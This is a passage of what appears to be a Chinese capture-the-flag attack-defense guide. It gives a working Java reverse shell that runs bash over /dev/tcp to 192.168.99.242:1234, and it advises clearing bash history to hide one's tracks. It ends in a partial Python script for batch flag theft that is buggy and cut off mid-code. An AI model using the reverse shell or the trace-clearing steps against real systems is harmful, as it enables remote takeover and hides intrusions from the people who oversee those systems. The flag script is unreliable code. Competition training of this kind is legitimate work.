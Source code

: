 [![](https://p4.ssl.qhimg.com/t0133a1827d6b90f776.png)](https://p4.ssl.qhimg.com/t0133a1827d6b90f776.png)

建议连着kill两次

#### <a class="reference-link" name="java%E5%8F%8D%E5%BC%B9shell"></a>java反弹shell

```
public class Revs `{`
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception `{`
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= `{`"/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/192.168.99.242/1234;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done"`}`;
        Process p = r.exec(cmd);
        p.waitFor();
    `}`
`}`
```

保存为Revs.java文件，编译执行，成功反弹shell。

javac Revs.java<br>
java Revs

#### <a class="reference-link" name="%E6%B8%85%E9%99%A4bash_history"></a>清除bash_history

使用bash命令，会在root目录生成名为~/.bash_history的历史记录文件，建议清除记录，隐藏行踪

### <a class="reference-link" name="%E6%89%B9%E9%87%8F%E8%84%9A%E6%9C%AC"></a>批量脚本

#### <a class="reference-link" name="%E6%89%B9%E9%87%8F%E4%BA%A4flag"></a>批量交flag

有的比赛会提前说提交flag的方法，这样我们就可以提前写好脚本，找到漏洞小改一下就能用了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016b0ef4c88c600349.png)

假设有文件读取的话，就可以批量获取并提交flag

```
import requests
def getFlag(ip, port, dir)
    fullUrl = "http://" + ip + ":" + port + url
    res = requests.get(url = fullUrl)
    return res.text

def subFlag(r_time, ip, port, dir, token):
    #Set submit flag url
    f_url = 'http://10.10.10.10/api/v1/att_def/web/submit_flag/?event_id=21'
    #Set token
    while True:
        for q in ip:
            # q是单个ip，port是端口，shell为初始后门的地址，passwd为初始后门的密码
            flag_tmp = get_flag(ip, port, dir)
            s_f_pay = `{`
                'flag':flag_tmp,
                'token':token
            `}`
```